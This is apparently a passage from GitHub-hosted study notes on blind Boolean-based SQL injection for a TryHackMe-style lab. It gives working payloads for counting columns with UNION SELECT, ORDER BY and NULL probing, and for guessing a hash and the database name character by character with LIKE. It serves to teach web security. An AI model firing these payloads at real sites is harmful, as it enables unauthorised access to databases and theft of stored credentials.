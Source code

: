 The query is targeting the hash and asking to extract the first character from the string and only one character, and then it asks if it is equal to the letter `s` in this case the first letter is `e` so this the payload evaluates to FALSE and you ***shouldn't see a title from the product page** probably something like: `Nothing is returned on the page`.  
So you know that the first character is not an `s` so you continue your iteration until you are able to hit all the correct signs.

**Other examples of possible exploitations**  
1. Initial Setup:  
- Example URL: `https://website.thm/checkuser?username=admin`
- Observing responses like `{"taken": true}` or `{"taken": false}` helps infer the presence of a Boolean-based vulnerability.  

2. Number of columns:  
- Use the `UNION` operator to discover the number of columns in the database by iterating through payloads like:  
```
admin123' UNION SELECT 1;--  
admin123' UNION SELECT 1,2;--  
admin123' UNION SELECT 1,2,3;--  
```
- When the "taken" response changes to true, the correct column count is confirmed (in this case, 3).  

Another way to discover the number of columns with UNION attack is using ORDER BY (example not related to initial set up):
`select title, cost from product where id =1 order by 1`  
Incrementally inject a series of ORDER BY clauses until you get an error or observe a different behaviour in the application.  
```
order by 1--
order by 2--
order by 3--
```
Error message:  
The ORDER BY position number 3 is out of range of the number of items in the select list.

Another way to discover the number of columns with UNION attack is using NULL VALUES (example not related to initial set up):  
`select title, cost from product where id =1 UNION SELECT NULL--`  
Incrementally inject a series of UNION SELECT payloads specifying a different number of null values until you no longer get an error.  
`' UNION SELECT NULL--`  
Error message:
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.  
Again:
```
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
```
3. Enumerating the Database Name:
- Use the `database()` method with the `LIKE` operator to deduce the database name character by character:  
`admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--`  
- Repeat the process with patterns (sa%, sb%, etc.) to fully identify the database name (e.g., sqli_three).  
